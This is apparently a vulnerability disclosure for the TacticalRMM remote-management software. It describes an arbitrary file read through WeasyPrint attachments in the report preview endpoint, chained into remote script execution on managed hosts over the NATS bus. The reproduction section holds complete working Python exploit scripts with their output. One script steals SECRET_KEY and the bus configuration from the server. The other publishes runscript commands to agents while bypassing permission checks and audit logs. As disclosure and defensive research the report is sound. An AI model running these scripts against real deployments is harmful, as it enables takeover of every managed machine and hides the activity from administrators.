


# TacticalRMM Vulnerability Report

Software: TacticalRMM

Developer or vendor: AmidaWare

Code repository: https://github.com/amidaware/tacticalrmm

## 1. Arbitrary File Read in Report Preview Leading to Remote Code Execution on Managed Hosts

Brief description: An account with report management permission can read arbitrary files on the server through the report preview endpoint, and then use the NATS bus password read from disk to send commands to every managed host.

Affected versions: 0.17.0 to 1.6.1

Preconditions: The attacker holds an account with report management permission.

### Root Cause

The report preview endpoint `POST /reporting/templates/preview/` takes the `template_md` submitted by the user, renders it to HTML and hands the result to WeasyPrint for PDF generation:

```python
# api/tacticalrmm/ee/reporting/views.py:225-245    commit 93d149fcda
    def post(self, request: Request) -> Union[FileResponse, Response]:
        try:
            serializer = self.InputSerializer(data=request.data)
            serializer.is_valid(raise_exception=True)
            report_data = serializer.validated_data

            html_report, variables = generate_html(
                template=report_data["template_md"],
                template_type=report_data["type"],
                css=report_data.get("template_css", ""),
                html_template=report_data.get("template_html"),
                variables=report_data["template_variables"],
                dependencies=report_data["dependencies"],
                user=request.user,
            )

            if report_data["debug"]:
                return self._process_debug_response(html_report, variables)
            return self._generate_response_based_on_format(
                html_report, report_data["format"]
            )
```

```python
# api/tacticalrmm/ee/reporting/utils.py:110-117    commit 93d149fcda
def generate_pdf(*, html: str, css: str = "") -> bytes:
    font_config = FontConfiguration()

    pdf_bytes: bytes = HTML(string=html).write_pdf(
        stylesheets=[CSS(string=css, font_config=font_config)], font_config=font_config
    )

    return pdf_bytes
```

WeasyPrint resolves `<link rel="attachment">` and embeds the resource referenced by the href into the PDF as an attachment. A `file://` path in the template therefore reads a local file on the server. The generated PDF is returned to the attacker through `FileResponse`, so the attacker gains arbitrary file read.

The next step is remote code execution on managed hosts. `/opt/tactical/api/nats-rmm.conf` on the TacticalRMM server holds the NATS bus configuration, and the TRMM account password reuses Django's `SECRET_KEY`:

```python
# api/tacticalrmm/tacticalrmm/utils.py:227-236    commit 93d149fcda
    accounts = {
        "TRMM": {
            "users": [
                {
                    "user": "tacticalrmm",
                    "password": settings.SECRET_KEY,
                    "permissions": {"publish": ">", "subscribe": ">"},
                }
            ],
            "mappings": {"*": "cmd.{{wildcard(1)}}"},
            "exports": [{"stream": "cmd.*"}],
```

The `SECRET_KEY` can be read from `/opt/tactical/api/tacticalrmm/local_settings.py`.

nginx proxies `/natsws` to the NATS websocket port:

```nginx
# docker/containers/tactical-nginx/entrypoint.sh:122-124    commit 93d149fcda
    location ~ ^/natsws {
        set $natswebsocket http://${NATS_SERVICE}:9235;
        proxy_pass $natswebsocket;
```

An attacker who reads `SECRET_KEY` can use it as the password to connect to `wss://<API_HOST>/natsws` as `tacticalrmm`, and publish `runscript` to any `agent_id`. The bus delivers the message to the agent without going through Django, so there is no permission check, and neither `AgentHistory` nor `AuditLog` records the command.

### Reproduction Environment

The lab uses the official compose deployment:

```bash
git clone https://github.com/amidaware/tacticalrmm
cd tacticalrmm/docker
cp .env.example .env
# fill in APP_HOST, API_HOST, MESH_HOST as well as TRMM_USER and TRMM_PASS
docker compose up -d
```

Once the environment is up, create a client and a site, create a role with only `can_manage_reports` checked and assign it to the demo account, then install an agent on a host. The reproduction was done on 1.6.1, with the agent built from rmmagent 2.12.0 source and running in a container.

### Reproduction

Sign in with the demo account. The account sees no client and no agent:



Call the report preview endpoint and extract the PDF attachment:

```python
import io
import json
import re

import httpx
from pypdf import PdfReader

API = "https://api.trmm.example.com"

token = httpx.post(f"{API}/v2/checkcreds/",
                   json={"username": "reporter", "password": "Reporter12345."},
                   verify=False).json()["token"]


def read_file(path):
    html = f'<html><body><link rel="attachment" href="file://{path}"></body></html>'
    resp = httpx.post(f"{API}/reporting/templates/preview/",
                      headers={"Authorization": f"Token {token}"},
                      json={"template_md": html, "type": "html",
                            "template_variables": "{}", "dependencies": {},
                            "format": "pdf"},
                      verify=False, timeout=60)
    attachment = list(PdfReader(io.BytesIO(resp.content)).attachments.values())[0]
    return attachment if isinstance(attachment, bytes) else b"".join(attachment)


settings = read_file("/opt/tactical/api/tacticalrmm/local_settings.py").decode()
print("SECRET_KEY =", re.search(r"SECRET_KEY = '([^']+)'", settings).group(1))

conf = json.loads(read_file("/opt/tactical/api/nats-rmm.conf"))
trmm = conf["accounts"]["TRMM"]
print("bus account:", trmm["users"][0]["user"])
print("permissions:", trmm["users"][0]["permissions"])
print("mappings   :", trmm["mappings"])
print("agents     :", [u["user"] for u in conf["accounts"]["AGENTS"]["users"]])
```

The output is:

```
SECRET_KEY = Orj4XyFLsFMBrQqgOQYzBxj32qSlabB9rwdXJ1RLWbCndQuWeOoYVtCVwews7lgRYHcC85G3g3fzUDCw
bus account: tacticalrmm
permissions: {'publish': '>', 'subscribe': '>'}
mappings   : {'*': 'cmd.{{wildcard(1)}}'}
agents     : ['cbb7c8f580634ed29588d66bd48233dc']
```

Next, connect to the bus and send a command to that host:

```python
import asyncio
import ssl

import msgpack
import nats

SECRET_KEY = "Orj4XyFLsFMBrQqgOQYzBxj32qSlabB9rwdXJ1RLWbCndQuWeOoYVtCVwews7lgRYHcC85G3g3fzUDCw"
AGENTS = ["cbb7c8f580634ed29588d66bd48233dc"]
CODE = "#!/bin/bash\nid\nhostname\n"


async def main():
    ctx = ssl.create_default_context()
    ctx.check_hostname = False
    ctx.verify_mode = ssl.CERT_NONE
    nc = await nats.connect("wss://api.trmm.example.com/natsws",
                            user="tacticalrmm", password=SECRET_KEY,
                            tls=ctx, allow_reconnect=False)
    for agent_id in AGENTS:
        msg = {"func": "runscript",
               "payload": {"code": CODE, "shell": "bash"},
               "timeout": 20, "script_args": [], "env_vars": [], "id": 0}
        reply = await nc.request(agent_id, msgpack.dumps(msg), timeout=20)
        print(reply.data[3:].decode(errors="replace"))
    await nc.close()


asyncio.run(main())
```

The command runs on the managed host and returns:

```
uid=1000 gid=1000 groups=1000
debian
```

The command is sent directly over the bus, so from the admin view the History page of that agent holds no record:


